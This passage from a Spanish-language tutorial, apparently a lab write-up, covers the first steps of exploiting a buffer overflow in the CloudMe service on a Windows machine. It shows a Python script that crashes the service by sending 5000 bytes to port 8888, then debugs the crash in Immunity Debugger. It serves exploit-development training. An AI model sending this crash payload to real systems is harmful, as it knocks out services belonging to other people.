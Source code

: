 ```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"A" * 5000

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Ejecutando el script vemos que el CloudMe para de functionnar el la maquina Windows. 

```{r, echo = FALSE, fig.cap="BufferOverflow DOS", out.width="90%"}
    knitr::include_graphics("images/Buff-DOS.png")
```


#### Etapa 2 : Analizando lo que pasa con Immunity Debugger {-}

En la maquina windows, arrancamos otra vez el servicio CloudMe y nos abrimos el Immunity Debugger.

Pinchamos en el menu File del Immunity Debugger a attach y seleccionamos el servicio CloudMe

```{r, echo = FALSE, fig.cap="BufferOverflow Attach service", out.width="90%"}
    knitr::include_graphics("images/Buff-ID_attach.png")
```

Cuando lo lanzamos siempre nos va a poner el servicio en *PAUSED* y tenemos que darle al boton *PLAY*.

Desde la maquina victima lanzamos otra vez el exploit para ver lo que pasa.

```bash
python3 exploit.py
```

En el Immunity debugger podemos ver que se a vuelto a PAUSEAR y en la ventanita Registers (FPU) que hay cossas turbias.

##### Explicacion del stack {-}
